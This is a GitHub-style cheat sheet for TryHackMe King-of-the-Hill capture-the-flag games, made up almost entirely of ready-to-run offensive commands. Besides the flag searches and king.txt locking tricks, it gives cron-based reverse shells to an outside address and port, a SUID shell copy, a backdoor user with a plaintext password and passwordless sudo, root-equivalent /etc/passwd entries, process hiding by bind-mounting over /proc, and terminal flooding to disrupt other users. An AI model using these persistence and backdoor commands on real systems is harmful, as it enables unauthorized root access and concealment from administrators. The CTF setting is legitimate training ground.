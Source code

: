 # Machine Tricks ✅📚
## Flag_finder ✅
```bash
grep -iR "THM{" / 2>/dev/null          # flag prefix
grep -R  "VEhN" / 2>/dev/null          # base64
grep -RE '[0-9a-f]{32}' . 2>/dev/null  # hash
find / -name "*flag*"  -ls 2>/dev/null
find / -type f -name "*flag.txt" -o -name ".flag*" -o -name "flag" -o -name "user.txt" -o -name "root.txt"  -ls 2>/dev/null
```
## KoTH Tricks ✅
### Be-king Linux ✅
```bash
set write off
chattr -R +ia /root
chattr -R +ia /root/king.txt
rm -rf /usr/bin/chattr
echo "solcoteh" >| /root/king.txt
lessecho "solcoteh" > /root/king.txt
set -o noclobber /root/king.txt
sudo mount --bind -o ro /root/king.txt /root/king.txt 2>/dev/null

while true; do (echo -e 'solcoteh' > /root/king.txt); sleep 0.1; done 2>/dev/null &

echo "#!/bin/bash" > /usr/lib/yo.sh
echo 'echo "solcoteh" >| /root/king.txt' >> /usr/lib/yo.sh
echo "/usr/lib/chattr +i /root/king.txt" >> /usr/lib/yo.sh
chmod +x /usr/lib/yo.sh
(crontab -l 2>/dev/null; echo "* * * * * bash /usr/lib/yo.sh") | sudo crontab -
```
### Be-king Windows ✅
```bash
cd C:\Users\Administrator\king-server\
icacls king.txt /grant Everyone:(F)
attrib -a -s -r -i -h king.txt & echo solcoteh > king.txt & attrib +a +s +r +i king.txt
icacls king.txt /inheritance:d
icacls king.txt /remove Everyone
icacls king.txt /remove BUILTIN\Administrators
icacls king.txt /remove "NT AUTHORITY\SYSTEM"
icacls king.txt /remove KingOfTheDomain\Administrator
icacls king.txt /grant Everyone:(R)
icacls king.txt /deny  Everyone:(WD)
```
#### Change and write in king.txt
```bash
# change directory to locate king.txt
cd C:\Users\Administrator\king-server\
icacls king.txt /inheritance:d # To disable inheritance
icacls king.txt /inheritance:e # To enable inheritance
# write username to king.txt and change permissions 
icacls king.txt /grant Everyone:(F)
attrib -a -s -r -i -h king.txt & echo solcoteh > king.txt & attrib +a +s +r +i king.txt
```
#### Remove Permissions
```bash
cd C:\Users\Administrator\king-server\

icacls king.txt # show All permissions
icacls king.txt /remove Everyone
icacls king.txt /remove Administrator
icacls king.txt /remove "NT AUTHORITY\IUSR"
icacls king.txt /remove "NT AUTHORITY\SYSTEM"
icacls king.txt /remove BUILTIN\Administrators
icacls king.txt /remove KingOfTheDomain\Administrator
```
#### Allow Permissions
```bash
cd C:\Users\Administrator\king-server\

icacls king.txt /grant Everyone:(F)
icacls king.txt /grant "NT AUTHORITY\IUSR":(R)

icacls king.txt /grant Administrator:(F)
icacls king.txt /grant "NT AUTHORITY\SYSTEM":(F)
icacls king.txt /grant BUILTIN\Administrators:(F)
icacls king.txt /grant KingOfTheDomain\Administrator:(F)
```
#### Deny Permissions
```bash
cd C:\Users\Administrator\king-server\

icacls king.txt /deny  Everyone:(WD)
icacls king.txt /deny  Administrator:(WD)
icacls king.txt /deny  "NT AUTHORITY\SYSTEM":(WD)
icacls king.txt /deny  BUILTIN\Administrators:(WD)
icacls king.txt /deny  KingOfTheDomain\Administrator:(WD)
```
### BackDoor ✅
```bash

comando="/bin/bash -c 'bash -i >& /dev/tcp/$ip_address/$port_address 0>&1'"
echo "* * * * * root $comando" | sudo tee -a /etc/crontab > /dev/null-

echo \"* * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.8.118.131/1337 0>&1'\" >> /etc/crontab

cp /bin/sh /home/sh && chmod u+s /home/sh

useradd ali && (echo -e 'Mobin@\nMobin@' | passwd ali) && (echo "ali ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)

echo 'mobin:$1$8VO3cUZu$als/bleGjZ3SVjE5EGzvh/:0:0:root:/root:/bin/bash' >> /etc/passwd
echo 'mobin:$6$/LuWBv7L4QbfG1kf$pb0sFxOLHKiMNiAr2vMdpRc2e8mljxoUlm33fY6KEXLzcH7K51zegdnOYygurWuP/2.KW3eQvcBHXBn9/Jqnj0:0:0:root:/root:/bin/bash' >> /etc/passwd
password=Mobin@
```
### Not_Be-king ✅
```bash
chattr -R -ia /root
chattr -R -ia /root/king.txt

set +o noclobber /root/king.txt

sudo umount -l /root
sudo umount -l /root/king.txt

wget http://$ip_address:$port_address/chattr
chmod +x chattr
```
### mount-trick ✅
```bash
sudo lessecho solcoteh > /root/king.txt
sudo dd if=/dev/zero of=/dev/shm/root_f bs=1000 count=100
sudo mkfs.ext3 /dev/shm/root_f
sudo mkdir /dev/shm/sqashfs
sudo mount -o loop /dev/shm/root_f /dev/shm/sqashfs/
sudo chmod -R 777 /dev/shm/sqashfs/
sudo lessecho solcoteh > /dev/shm/sqashfs/king.txt
sudo mount -o ro,remount /dev/shm/sqashfs
sudo mount -o bind /dev/shm/sqashfs/king.txt /root/king.txt
sudo rm -rf /dev/shm/root_f 

mkdir /tmp/hidden
echo "$$" (Show our PID)
mount -o bind /tmp/hidden /proc/your-PID-here (Hide your PTS)

mkdir /dev/shm/.hidden && mount -o bind /dev/shm/.hidden /proc/$pid (Hide your PTS)
```
### symbolic-link-Tricks ✅
```bash
cp -r /root/ /dev/shm/...
cd /dev/shm/.../root
rm king.txt
echo "YourNick" > ...
ln -s ... king.txt
```
### Kill_enemy_shell ✅
```bash

tty (If you're looking for your pts id/number)
pkill -9 -t pts/<number>

ps aux
kill -9 $PID

find / -size 36464c 2>/dev/null ( find chattr )

cat /dev/urandom > /dev/pts/# ( sending spam for another user )
cat /dev/urandom > $dir 2>/dev/null

PATH=0
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

cat /etc/shells (show available shells)
```
### Tools_Useful ✅
[pspy](https://github.com/DominicBreuker/pspy)
[chisel](https://github.com/jpillora/chisel)
[nyancat](https://github.com/klange/nyancat)
[linpeas.sh](https://github.com/peass-ng/PEASS-ng)
[LinEnum.sh](https://github.com/rebootuser/LinEnum)
[reverse_ssh](https://github.com/NHAS/reverse_ssh)
[linux-exploit-suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
[linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
### disable_rootkit ✅
```bash
echo 1 > /proc/sys/kernel/modules_disabled
sudo sysctl -w kernel.modules_disabled=1
sudo sysctl -w module.sig_enforce=1
```
### Patched Services
```bash
sudo docker-compose down
sudo docker-compose build
docker-compose up --force-recreate -d
```
